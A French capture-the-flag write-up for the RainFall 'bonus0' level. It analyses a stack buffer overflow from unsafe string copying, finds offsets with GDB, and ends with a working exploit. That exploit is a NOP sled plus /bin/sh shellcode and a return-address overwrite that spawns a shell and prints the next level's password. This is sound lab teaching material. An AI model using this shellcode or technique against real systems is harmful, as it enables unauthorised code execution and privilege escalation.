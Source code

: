 # Bonus0

Analysons les fonctions en détails :

### Fonction p
Cette fonction affiche un tiret, lit des données de l'entrée standard, et copie les données dans un buffer fourni en paramètre. Elle est vulnérable à un débordement de tampon pour plusieurs raisons :

Taille de lecture fixe et grande : read(0, localBuffer, 0x1000) lit 4096 octets, la taille complète du buffer localBuffer.
Écrasement potentiel dans strncpy : Même si strncpy limite la copie à 20 caractères (0x14 en hexadécimal), aucun caractère nul n'est explicitement ajouté pour terminer la chaîne, sauf si la chaîne source est plus courte que 20 caractères.

### Fonction pp
Cette fonction orchestre le flux principal des données utilisateur, traitant deux entrées séparées avec la fonction p, puis les concatene dans un buffer passé en paramètre. Les problèmes sont:

Utilisation de strcpy et strcat : Ces fonctions ne vérifient pas la taille du buffer de destination, conduisant directement à des débordements de tampon si les données sources sont trop grandes.

### Fonction main

Cette fonction prépare un buffer de 54 octets et appelle pp pour manipuler les données utilisateur. Elle affiche ensuite le résultat final.

Utilisons GDB pour trouver la faille potentielle.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ
aaaabbbbccccddddeeeeaaaabbbbccccddddeeee??? aaaabbbbccccddddeeee???

Program received signal SIGSEGV, Segmentation fault.
0x64636363 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff740	0xbffff740
ebp            0x63626262	0x63626262
esi            0x0	0
edi            0x0	0
eip            0x64636363	0x64636363
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
On constate avec le pattern utilisé, qui il y a un segfault. ebp et eip sont effet ecrasé. Le programme a sauté vers 'dccc' (en little endian donc 'cccd' dans le pattern). On en conclut que le programme est redirigé a +9 de la deuxième chaine entrée.

Nous allons mettre notre shellcode dans la premiere chaine de caractère entrée avec un nopsled suffisant. Grâce a un breakpoint apres le premier read, nous trouvons l'adresse du buffer où le programme sera redirigé.

```
Starting program: /home/user/bonus0/bonus0
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ

Breakpoint 2, 0x080484e6 in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
=> 0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
End of assembler dump.
(gdb) x/100x $esp-100
0xbfffe60c:	0xb7e9e0fb	0xb7fd1a20	0x0000000a	0x00000000
0xbfffe61c:	0x00000000	0x0804824c	0x080498e4	0xb7fd28b8
0xbfffe62c:	0xb7e9293c	0xb7fd1a20	0xb7e338d8	0x00000003
0xbfffe63c:	0x00000000	0x00000000	0xb7fd0ff4	0x00000000
0xbfffe64c:	0x00000000	0xbffff688	0xb7ff26b0	0xbffff688
0xbfffe65c:	0x00001000	0xbfffe680	0xb7f0a213	0xb7fd0ff4
0xbfffe66c:	0x080484e6	0x00000000	0xbfffe680	0x00001000
0xbfffe67c:	0x00000000	0x61616161	0x62626262	0x63636363
0xbfffe68c:	0x64646464	0x65656565	0x66666666	0x67676767
0xbfffe69c:	0x68686868	0x69696969	0x6a6a6a6a	0x6b6b6b6b
0xbfffe6ac:	0x6c6c6c6c	0x6d6d6d6d	0x6e6e6e6e	0x6f6f6f6f
0xbfffe6bc:	0x70707070	0x71717171	0x72727272	0x73737373
0xbfffe6cc:	0x74747474	0x75757575	0x76767676	0x77777777 <== nous allons choisir cette adresse
0xbfffe6dc:	0x78787878	0x79797979	0x7a7a7a7a	0x41414141
0xbfffe6ec:	0x42424242	0x43434343	0x44444444	0x45454545
0xbfffe6fc:	0x46464646	0x47474747	0x48484848	0x49494949
0xbfffe70c:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xbfffe71c:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x51515151
0xbfffe72c:	0x52525252	0x53535353	0x54545454	0x55555555
0xbfffe73c:	0x56565656	0x57575757	0x59585858	0x5a595959
0xbfffe74c:	0x0a5a5a5a	0x00000000	0x00000000	0x00000000
0xbfffe75c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe76c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe77c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe78c:	0x00000000	0x00000000	0x00000000	0x00000000
```

Nous pouvons à présent construire notre shellcode, comme suit :
NopeSled + shellcode en 1ere entrée.
Décalage de 9 + addresse du 1er buffer + 7 pour eviter que la chaîne ne se termine (+ de 20 caractères)

```
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xcc\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 -
 -
????????????????????AAAAAAAAA????BBBBBBB??? AAAAAAAAA????BBBBBBB???
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

